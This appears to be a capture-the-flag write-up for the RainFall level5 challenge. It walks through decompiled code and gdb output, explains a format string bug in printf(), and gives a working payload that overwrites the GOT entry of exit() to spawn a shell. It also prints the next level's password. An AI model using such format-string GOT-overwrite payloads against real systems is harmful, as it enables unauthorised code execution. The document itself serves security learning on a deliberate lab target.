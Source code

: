 ## Step 1: Static Analysis
```c
080484a4    void o() __noreturn
080484a4    {
080484a4        system("/bin/sh");
080484bd        _exit(1);
080484a4    }


080484c2    void n() __noreturn
080484c2    {
080484c2        void var_20c;
080484e5        fgets(&var_20c, 0x200, __bss_start);
080484f3        printf(&var_20c);
080484ff        exit(1);
080484c2    }


08048504    int32_t main(int32_t argc, char** argv, char** envp)
08048504    {
08048504        n();
08048504    }
```

### Explanation
`v()` reads user input into a buffer (`var_20c`) using `fgets()` and then passes it directly to `printf()`.
This introduces a `format string vulnerability` because `printf()` interprets format specifiers if the input contains them.

The difficulty here is that we cannot overwrite the return address to jump to `o()` because `n()` doesn't return, it calls `exit()` immediately after `printf()`.  
The solution is to overwrite the `GOT` `(Global Offset Table)` entry of `exit()` with the address of `o()`.

```asm
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```
When the program call `exit()`, it first jumps to `exit@plt`, which is the `PLT` `(Procedure Linkage Table)` entry for `exit()`.

```asm
(gdb) disas
Dump of assembler code for function exit@plt:
=> 0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```
The first instruction jumps to the address stored in `0x8049838` (the GOT entry for `exit()`).

```asm
(gdb) x/1wx 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
```
We will replace this address with the address of `o()`.

```bash
level5@RainFall:~$ ./level5 
AAAA %x.%x.%x.%x.%x.%x.%x. 
AAAA 200.b7fd1ac0.b7ff37d0.41414141.2e782520.252e7825.78252e78.
level5@RainFall:~$
```
Here we can see our string input is stored in fourth position from `printf()` perspective.


## Step 2: Exploit the Binary

```bash
level5@RainFall:~$ python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d%4$n"' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit - | ./level5

% cd ../level6
% cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

The first part of the payload, `"\x08\x04\x98\x38"[::-1]`, represents the address of the `GOT` entry for `exit()` (`0x8049838`) in little-endian format. This address is injected so that `printf()` uses it as the target memory location for the write operation.

Next, the string `"%134513824d"` is used to generate a large number of printed characters. This ensures that printf()'s internal character count reaches exactly the value corresponding to the address of o() (`0x080484a4`).

Finally, the `"%4$n"` specifier tells `printf()` to write the total number of characters printed so far to the memory location specified by the fourth argument on the stack, which is the `GOT` entry for `exit()`. This effectively replaces the address of `exit()` with the address of `o()`.
